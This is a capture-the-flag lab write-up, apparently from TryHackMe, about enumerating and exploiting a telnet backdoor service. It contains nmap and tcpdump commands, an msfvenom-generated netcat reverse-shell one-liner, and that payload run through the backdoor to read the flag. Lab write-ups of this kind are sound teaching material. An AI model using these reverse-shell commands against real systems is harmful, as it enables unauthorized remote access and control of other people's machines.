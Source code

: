 # Network Services Telnet

## Task 6 | Enumerating Telnet

Nmap scan the machine:

    nmap -sV -p- -A 10.10.122.25
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 21:35 CET
    Nmap scan report for 10.10.122.25
    Host is up (0.043s latency).
    Not shown: 65534 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    8012/tcp open  unknown
    | fingerprint-strings:
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
    |_    SKIDY'S BACKDOOR. Type .HELP to view commands
    1 service unrecognized despite returning data. 
    No exact OS matches for host
    
    OS and Service detection performed.
    Nmap done: 1 IP address (1 host up) scanned in 662.36 seconds

In the scan you can se the **open tcp port 8012** with the title 'SKIDY'S BACKDOOR' so maybe it is **a backdoor** from the **user skidy**.

## Task 7 | Exploiting Telnet

With telnet we can connect to the server:

    telnet 10.10.122.25 8012
    Trying 10.10.122.25...
    Connected to 10.10.122.25.
    Escape character is '^]'.
    SKIDY'S BACKDOOR. Type .HELP to view commands

Here we can see again **'SKIDY'S BACKDOOR.'**

We can try to execute a command but get **no result**:

    SKIDY'S BACKDOOR. Type .HELP to view commands
    .HELP
    .HELP: View commands
    .RUN <command>: Execute commands
    .EXIT: Exit
    .RUN ls

Now start a tcpdump listener:

    tcpdump ip proto \\icmp -i eth0
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes

Now execute in telnet the command *'.RUN ping 10.9.0.0 -c 1'* with your ip and you should see a echo request and reply in your tcpdump listener.
This means **there is code execution**.

now we can create a reverse shell command like:

    msfvenom -p cmd/unix/reverse_netcat lhost=10.9.0.0 lport=4444 R
    [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
    [-] No arch selected, selecting arch: cmd from the payload
    No encoder specified, outputting raw payload
    Payload size: 90 bytes
    mkfifo /tmp/guzg; nc 10.9.0.0 4444 0</tmp/guzg | /bin/sh >/tmp/guzg 2>&1; rm /tmp/guzg

Wo now can listen to the lport from above via:

    nc -lvp 4444
    listening on [any] 4444 ...

Now run the mkfifo command to create the reverse shell:

    .RUN mkfifo /tmp/guzg; nc 10.9.205.135 4444 0</tmp/guzg | /bin/sh >/tmp/guzg 2>&1; rm /tmp/guzg

In your netcat listener you should see something like this but my setup is buggy because of wsl2.

    nc -lvp 4444
    listening on [any] 4444 ...
    DNS fwd/rev mismatch: PC != PC.localdomain
    connect to [172.26.102.250] from PC-Main [172.26.96.1] 58297

Now you can execute commands in this reverse shell and get the flag:

    nc -lvp 4444
    listening on [any] 4444 ...
    DNS fwd/rev mismatch: PC-Main != PC-Main.localdomain
    connect to [172.26.102.250] from PC-Main [172.26.96.1] 58297
    ls
    flag.txt
    cat flag.txt
    THM{xxxxxxxxxxxxxxxxxxxxxxx}
